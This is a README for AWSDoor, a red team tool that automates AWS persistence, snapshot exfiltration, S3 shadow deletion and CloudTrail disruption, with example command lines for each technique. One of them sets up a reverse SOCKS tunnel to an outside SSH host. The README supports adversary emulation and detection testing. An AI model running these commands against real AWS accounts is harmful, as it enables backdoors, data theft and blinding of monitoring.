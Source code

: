 # AWSDoor

> This readme has been AI generated

**AWSDoor** is a red team automation tool designed to simulate advanced attacker behavior in AWS environments. It automates the deployment of persistence mechanisms, data exfiltration techniques, destructive operations, and defense impairment tactics, enabling security teams to test their detection and response capabilities against realistic cloud-native threats.

## 🔍 Purpose

As AWS becomes a critical infrastructure platform, attackers increasingly exploit its flexibility to maintain stealthy and durable access. AWSDoor helps red teams replicate these techniques in a controlled and auditable manner, supporting Threat-Led Penetration Testing (TLPT) and adversary emulation in cloud environments.

---

## 🚧 Future Improvements
AWSDoor is an evolving project. New techniques for persistence, exfiltration, evasion, and other attack vectors will be continuously added to reflect the latest developments in cloud threat landscapes. Stay tuned for upcoming updates!

## ✨ Features

### 1. Persistence Techniques
- **AccessKey Injection**: Add access keys to existing IAM users.
- **Trust Policy Backdooring**: Modify trust policies to allow external role assumption.
- **NotAction Policy Abuse**: Create overly permissive IAM policies using `NotAction`.
- **Lambda-Based Persistence**: Deploy backdoors via Lambda functions or poisoned Lambda layers.

### 2. Data Exfiltration
- **Snapshot Exfiltration**: Share EBS snapshots with external AWS accounts.
- **EC2 Reverse SOCKS**: Use EC2 and SSM to establish reverse SOCKS tunnels for lateral movement.

### 3. Destruction Techniques
- **S3 Shadow Deletion**: Deploy lifecycle policies to silently delete S3 data.
- **Leave Organization**: Detach AWS accounts from Organizations to evade governance and enable long-term compromise.

### 4. Defense Impairment
- **CloudTrail Logging Disruption**: Stop logging or modify event selectors to reduce visibility.
- **CloudWatch and Config Tampering**: Impair monitoring and alerting mechanisms.

---

## 🧪 Example Usage


### AccessKey Injection
```bash
python .\main.py -m AccessKey -u adele.vance
```

### Trust Policy Backdooring
```bash
python .\main.py -m TrustPolicy -r FAKEROLE -a 584739118107
```

### NotAction Policy Abuse
```bash
python .\main.py -m NotAction -r FAKEROLE -p ROGUEPOLICY
```

### Lambda-Based Persistence
```bash
python .\main.py -m AdminLambda -r FAKEROLE -n lambda_test2 -l
```
### Snapshot Exfiltration
```bash
python .\main.py -m EC2DiskExfiltration -i i-0021dfcf18a891b07 -a 503561426720
```
### EC2 Reverse SOCKS
```bash
python .\main.py -m EC2Socks -name i-0021dfcf18a891b07 -key "ssh-ed25519 AAAA..." -remotekey path/to/key.pem -user ec2-user -socksport 4444 -sshuser admin -sshhost 13.38.79.236 --method systemd
```

### CloudTrail Logging Disruption
```bash
python .\main.py --m CloudTrailStop -s 
```

### S3 Shadow Deletion
```bash
python .\main.py --m S3ShadowDelete -n s3bucketname
```

## 🙏 Acknowledgments
This tool was developed as part of internal R&D efforts at Wavestone. Special thanks to Wavestone for supporting the research and development of AWSDoor.

## 📚 Coming Soon
A full technical article will be published to provide in-depth explanations of each technique implemented in AWSDoor, including detection strategies and mitigation recommendations.
